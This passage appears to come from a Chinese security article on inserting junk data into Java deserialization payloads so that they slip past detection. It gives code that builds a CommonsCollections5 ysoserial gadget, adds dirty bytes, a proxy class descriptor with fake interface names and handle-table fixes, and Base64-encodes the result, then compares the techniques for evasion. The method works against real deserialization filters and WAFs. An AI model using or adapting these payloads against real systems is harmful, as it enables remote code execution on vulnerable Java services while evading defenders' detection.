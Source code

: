 ```
dirtyData += "\x05" // 数据块大小
dirtyData += string([]byte{1,2,3,4,5}) // 脏数据
dirtyData += "\x7b"
res = string(payload[:5]) + dirtyData+ string(payload[4:])

println(codec.EncodeBase64(res))
```  
```


```  
  
**TC_PROXYCASSDESC**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  
在解析proxyClassDesc时会先解析代理头，再继续解析class。所以可以给gadget加个代理头,而代理头可以无限塞接口名。  
```

```  
```
serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

newPayload = ""
newPayload += string(payload[:5]) // aced 和 TC_OBJECT
newPayload += string("\x7d")
newPayload += string("\x00\x00\x00\x01") // 1个interface
newPayload += string("\x00\x02") // 长度是2
newPayload += "aa" // 一个接口名叫aa(会查找aa class)
newPayload += "\x7b"
newPayload += string(payload[4:]) // classData

println(codec.EncodeBase64(newPayload))
```  
```


```  
  
**总结**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  
TC_RESET是最简单的，适合临时测试时手工加，而且对解析流程影响不大，但大量的TC_RESET在aced流中特征挺明显的。  
  
handle table错乱的问题可以暂时用\x7b解决，但会抛出异常。除此外也可以把所有引用值重新生成，或将所有的引用都改为实例来解决。当然如果是用java自动生成的序列化流就不会有这问题。  
  
Java更新迭代了这么多版本，为了兼容性，不可避免的做一些兼容处理，除了上述的方式应该还有很多办法，但贵不在多，目前觉得比较好用的是外面包一层TC_ARRAY，生成的payload是标准序列化流，兼容性最好，后面会在Yso JavaHack中采用这种方式塞脏数据。  
  
**参考：**  
#   
  